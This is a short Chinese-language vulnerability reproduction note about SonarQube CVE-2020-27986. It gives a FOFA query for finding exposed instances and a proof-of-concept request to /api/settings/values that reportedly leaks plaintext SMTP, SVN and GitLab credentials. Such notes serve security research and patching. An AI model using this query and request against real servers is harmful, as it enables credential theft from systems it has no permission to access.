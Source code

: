 # SonarQube api 信息泄露漏洞 CVE-2020-27986

## 漏洞描述

SonarQube 某接口存在信息泄露漏洞，可以获取部分敏感信息

## 漏洞影响

> [!NOTE]
>
> SonarQube

## FOFA

> [!NOTE]
>
> app="sonarQube-代码管理"

## 漏洞复现

主页如下

![](resource/SonarQube-api-信息泄露漏洞CVE-2020-27986/media/1.png)

漏洞POC

```
http://xxx.xxx.xxx.xxx/api/settings/values
```

![](resource/SonarQube-api-信息泄露漏洞CVE-2020-27986/media/2.png)

可泄露的为：明文SMTP、SVN和Gitlab等敏感信息

![](resource/SonarQube-api-信息泄露漏洞CVE-2020-27986/media/3.png)

## Goby & POC

> [!NOTE]
>
> SonarQube api Information leakage

![](resource/SonarQube-api-信息泄露漏洞CVE-2020-27986/media/4.png)
